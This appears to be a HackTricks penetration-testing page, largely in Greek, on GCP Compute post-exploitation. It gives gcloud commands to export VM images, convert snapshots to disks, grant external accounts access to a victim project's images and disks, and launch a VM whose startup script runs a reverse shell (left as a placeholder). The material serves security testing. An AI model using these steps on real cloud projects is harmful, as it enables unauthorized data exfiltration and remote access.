 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (Δικτύωση) ελέγξτε:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Εξαγωγή & Επιθεώρηση Εικόνων τοπικά

Αυτό θα επέτρεπε σε έναν επιτιθέμενο να **πρόσβαση στα δεδομένα που περιέχονται μέσα σε ήδη υπάρχουσες εικόνες** ή **δημιουργήσει νέες εικόνες τρεχουσών VM** και να έχει πρόσβαση στα δεδομένα τους χωρίς να έχει πρόσβαση στην τρέχουσα VM.

Είναι δυνατόν να εξάγουμε μια εικόνα VM σε ένα bucket και στη συνέχεια να την κατεβάσουμε και να την τοποθετήσουμε τοπικά με την εντολή:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Για να εκτελέσει αυτή την ενέργεια, ο επιτιθέμενος μπορεί να χρειαστεί δικαιώματα πάνω στον αποθηκευτικό κάδο και σίγουρα **δικαιώματα πάνω στο cloudbuild**, καθώς είναι η **υπηρεσία** που θα ζητηθεί να εκτελέσει την εξαγωγή.\
Επιπλέον, για να λειτουργήσει αυτό, ο κωδικοποιητής SA και ο υπολογιστής SA χρειάζονται προνομιακά δικαιώματα.\
Ο cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` χρειάζεται:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

Και ο SA `<project-id>-compute@developer.gserviceaccount.com` χρειάζεται:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Εξαγωγή & Επιθεώρηση Στιγμιότυπων & Δίσκων τοπικά

Δεν είναι δυνατόν να εξάγουμε άμεσα στιγμιότυπα και δίσκους, αλλά είναι δυνατόν να **μετατρέψουμε ένα στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα** και ακολουθώντας την **προηγούμενη ενότητα**, να εξάγουμε αυτή την εικόνα για να την επιθεωρήσουμε τοπικά.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspect an Image creating a VM

Με στόχο την πρόσβαση στα **δεδομένα που αποθηκεύονται σε μια εικόνα** ή μέσα σε μια **τρέχουσα VM** από όπου ένας επιτιθέμενος **έχει δημιουργήσει μια εικόνα,** είναι δυνατή η χορήγηση πρόσβασης σε έναν εξωτερικό λογαριασμό πάνω στην εικόνα:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
και στη συνέχεια δημιουργήστε μια νέα VM από αυτό:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Αν δεν μπορούσατε να δώσετε πρόσβαση στον εξωτερικό σας λογαριασμό μέσω της εικόνας, θα μπορούσατε να εκκινήσετε μια VM χρησιμοποιώντας αυτή την εικόνα στο έργο του θύματος και **να κάνετε τα μεταδεδομένα να εκτελούν ένα reverse shell** για να αποκτήσετε πρόσβαση στην εικόνα προσθέτοντας την παράμετρο:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε έναν δίσκο ή σε μια στιγμιότυπο, θα μπορούσατε να μετατρέψετε το στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα και να ακολουθήσετε τα προηγούμενα βήματα.**

Ή θα μπορούσατε να **παρέχετε πρόσβαση σε έναν εξωτερικό λογαριασμό** πάνω στον δίσκο (αν το αρχικό σημείο είναι ένα στιγμιότυπο, δώστε πρόσβαση στο στιγμιότυπο ή δημιουργήστε έναν δίσκο από αυτό):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Συνδέστε τον δίσκο** σε μια παρουσίαση:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH into the VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3.  **Format and Mount the Disk** (if it's a new or raw disk):

- Create a mount point:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Mount the disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

{{#include ../../../banners/hacktricks-training.md}}
